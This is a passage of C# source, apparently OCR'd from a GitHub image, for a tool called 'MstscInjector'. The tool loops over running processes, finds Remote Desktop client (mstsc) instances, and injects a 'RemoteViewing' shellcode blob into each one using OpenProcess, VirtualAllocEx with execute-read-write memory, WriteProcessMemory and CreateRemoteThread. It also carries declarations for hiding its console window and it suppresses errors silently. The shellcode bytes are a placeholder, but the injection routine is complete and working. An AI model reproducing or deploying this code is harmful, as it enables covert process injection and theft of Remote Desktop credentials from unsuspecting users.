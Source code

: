         public static int PROCESS_CREATE_THREAD = 0x0002;
        public static int PROCESS_QUERY_INFORMATION = 0x0400;
        public static int PROCESS_VM_OPERATION = 0x0008;
        public static int PROCESS_VM_WRITE = 0x0020;
        public static int PROCESS_VM_READ = 0x0010;
    
        public static UInt32 MEM_COMMIT = 0x1000;
        public static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
        public static UInt32 PAGE_EXECUTE_READ = 0x20;
    
        [DllImport("kernel32")]
        public static extern IntPtr GetConsoleWindow();
        [DllImport("user32")]
        public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
        public static int SW_HIDE = 0;
    } 
    
    class MstscInjector
    {
        // Injects shellcode in a process via its PID
        public static void InjectShellcode(int rPid, byte[] shellcode)
        {
            // Get a handle to the remote process with required permissions
            IntPtr pHandle = Win32.OpenProcess(Win32.PROCESS_CREATE_THREAD | Win32.PROCESS_QUERY_INFORMATION |
                Win32.PROCESS_VM_OPERATION | Win32.PROCESS_VM_WRITE | Win32.PROCESS_VM_READ, false, rPid);
            // Allocate memory with PAGE_EXECUTE_READWRITE permissions
            IntPtr sAddress = Win32.VirtualAllocEx(pHandle, IntPtr.Zero, shellcode.Length,
                Win32.MEM_COMMIT, Win32.PAGE_EXECUTE_READWRITE);
            // Write RemoteViewing Shellcode to the target process
            Win32.WriteProcessMemory(pHandle, sAddress, shellcode, new IntPtr(shellcode.Length), 0);
            // Execute Shellcode
            IntPtr rThread = Win32.CreateRemoteThread(pHandle, new IntPtr(0), new uint(), sAddress,
                new IntPtr(0), new uint(), new IntPtr(0));
            // Restore memory permissions to PAGE_EXECUTE_READ
            IntPtr sAddress2 = Win32.VirtualAllocEx(pHandle, IntPtr.Zero, shellcode.Length,
                Win32.MEM_COMMIT, Win32.PAGE_EXECUTE_READ);
            return;
        }
        // Main function
        public static void Main(string[] args)
        {
            string rProcess = "mstsc"; // RDP Process Name
            // List with already injected PIDs
            List<int> injectedProcs = new List<int>();
            // RemoteViewing Shellcode
            byte[] shellcode= new byte[285950] {SHELLCODE PLACEHOLDER};
            Console.WriteLine("[+] Searching for {0} instances", rProcess);
            while (true)
            {
                try
                {
                    Process[] procs = Process.GetProcesses();
                    foreach (Process proc in procs)
                    {
                        // Checks for mstsc processes not injected before
                        if ((proc.ProcessName == rProcess) && (!injectedProcs.Contains(proc.Id)))
                        {
                            Console.WriteLine("[>] Injected in PID: {0}", proc.Id);
                            InjectShellcode(proc.Id, shellcode); // Inject Shellcode
                            injectedProcs.Add((int)proc.Id); // Add the PID to injected procs list
                        }
                    }
                }
                catch {} // Silently continue execution if something fails
                Thread.Sleep(5000); // Sleeps for 5 Seconds